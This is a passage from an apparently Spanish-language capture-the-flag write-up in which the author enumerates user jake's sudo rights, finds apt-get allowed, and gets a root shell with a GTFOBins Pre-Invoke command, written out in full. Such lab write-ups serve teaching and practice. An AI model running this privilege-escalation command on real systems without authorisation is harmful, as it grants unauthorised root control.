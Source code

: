 Ahora haciendo uso de `sudo -l` podemos enumerar los permisos que tiene `jake` para ejecutar binarios con privilegios.

en la siguiente imagen podemos ver que tenemos permisos de un binario `apt-get`

![20231106110712.png](20231106110712.png)

Haciendo uso de nuestro recurso de [gtfobins](https://gtfobins.github.io/gtfobins/apt-get/#sudo) par poder escalar privilegios a `root`

```java
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

#### usuario root

![20231106111155.png](20231106111155.png)

¡VAMOS!

Happy Hacking :)
